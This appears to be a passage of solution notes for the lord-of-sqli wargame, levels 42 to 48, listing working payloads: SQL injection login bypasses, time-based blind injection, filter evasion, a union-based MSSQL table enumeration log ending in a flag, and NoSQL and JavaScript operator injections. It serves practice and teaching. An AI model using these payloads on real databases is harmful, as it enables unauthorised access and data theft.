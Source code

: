 115d8d1a422f1f3e

### 42 REVENANT
admin' and pw='' or id='admin' and pw=1 -- '  

bae18ae1221fafd3

### 43 YETI
' if((select len(pw) from prob_yeti where id='admin')=16) waitfor delay '0:0:3' -- '  

REL [yeti.py](https://github.com/seolaf/lord-of-sqli/blob/main/43_yeti.py)

### 44 mummy
using [] works!!  
select[pw]from[prob_mummy]where[id]='admin'and[pw]like'________________'  

REL [mummy.py](https://github.com/seolaf/lord-of-sqli/blob/main/44_mummy.py)

### 45 KRAKEN
```
1' union select name from sysobjects where xtype='U' -- '
: flag_34d1a7f3bb77c91e
1' union select id from sysobjects where name='flag_34d1a7f3bb77c91e' -- '
: 597577167
1' union select name from syscolumns where id=597577167 -- '
: wrongflag <-------------- fucking trap
1' union select name from syscolumns where id=597577167 and name <>'wrongflag' -- '
: there was no output!!! may be flag is on other table....
1' union select name from sysobjects where name<>'flag_34d1a7f3bb77c91e' and xtype='U' -- '
: flag_a98fbc3d1d46a81e
1' union select id from sysobjects where name='flag_a98fbc3d1d46a81e' -- '
: 613577224
1' union select name from syscolumns where id=613577224 -- '
: flag
1' union select flag from flag_a98fbc3d1d46a81e -- '
: FLAG{a0819fc56beae985bac7d175c974cd27}
```

GOOD reference about mssql : [https://whatdocumentary.tistory.com/8](https://whatdocumentary.tistory.com/8)

### 46 CERBERUS
id=admin&pw[$ne]=null

### 47 SIREN
id=admin&pw[$regex]=^.{8}$  

REL [siren.py](https://github.com/seolaf/lord-of-sqli/blob/main/47_siren.py)

### 48 INCUBUS
' || obj.id=='admin'&&obj.pw.length==8 ? not : '1';}"}  

REL [incubus.py](https://github.com/seolaf/lord-of-sqli/blob/main/48_incubus.py)

